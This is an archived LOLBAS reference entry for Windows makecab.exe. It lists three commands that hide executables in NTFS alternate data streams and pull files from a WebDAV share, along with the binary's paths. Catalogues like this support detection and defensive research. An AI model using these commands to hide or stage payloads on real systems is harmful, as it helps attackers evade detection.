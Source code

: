 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Makecab.exe

* Functions: Package, Add ADS, Download

```
makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab    

makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab    
   
makecab \\webdavserver\webdav\file.exe C:\Folder\file.txt:file.cab
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* 

Resources:
* https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

Full path:
```
c:\windows\system32\makecab.exe
c:\windows\sysWOW64\makecab.exe
```

Notes:



 
